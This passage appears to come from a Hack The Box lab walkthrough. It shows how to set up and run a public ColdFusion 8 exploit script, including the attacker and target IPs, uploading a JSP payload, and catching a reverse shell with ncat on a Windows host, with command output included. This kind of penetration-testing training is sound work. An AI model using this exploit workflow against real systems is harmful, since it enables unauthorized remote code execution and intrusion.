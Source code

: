 A quick `cat` review of the code indicates that the script needs some information. Set the correct information and launch the exploit.

### Exploit Modification
```python
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex
```

The exploit will take a bit of time to launch, but it eventually will return a functional remote shell.

### Exploitation
```shell-session
$ python3 50057.py 

Generating a payload...
Payload size: 1497 bytes
Saved as: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Priting request...
Content-type: multipart/form-data; boundary=77c732cb2f394ea79c71d42d50274368
Content-length: 1698

--77c732cb2f394ea79c71d42d50274368

<SNIP>

Executing the payload...
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.247.30.
Ncat: Connection from 10.129.247.30:49866.
```

### Reverse Shell
```cmd-session
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\ColdFusion8\runtime\bin

22/03/2017  08:53 ��    <DIR>          .
22/03/2017  08:53 ��    <DIR>          ..
18/03/2008  11:11 ��            64.512 java2wsdl.exe
19/01/2008  09:59 ��         2.629.632 jikes.exe
18/03/2008  11:11 ��            64.512 jrun.exe
18/03/2008  11:11 ��            71.680 jrunsvc.exe
18/03/2008  11:11 ��             5.120 jrunsvcmsg.dll
18/03/2008  11:11 ��            64.512 jspc.exe
22/03/2017  08:53 ��             1.804 jvm.config
18/03/2008  11:11 ��            64.512 migrate.exe
18/03/2008  11:11 ��            34.816 portscan.dll
```